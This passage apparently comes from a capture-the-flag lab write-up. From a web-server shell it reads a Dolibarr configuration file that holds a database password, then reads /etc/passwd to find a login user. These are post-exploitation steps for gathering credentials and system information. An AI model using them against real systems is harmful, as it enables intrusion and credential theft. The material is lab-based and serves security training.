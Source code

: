 {% raw %}
```sh
www-data@boardlight:~/html/crm.board.htb$ cat htdocs/conf/conf.php
cat htdocs/conf/conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

<snip>
```
{% endraw %}

<br />
Review /etc/passwd to get the user of the system.

{% raw %}
```sh
www-data@boardlight:~/html/crm.board.htb$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

<snip>

sssd:x:126:131:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:127:134:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:128:135:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
{% endraw %}

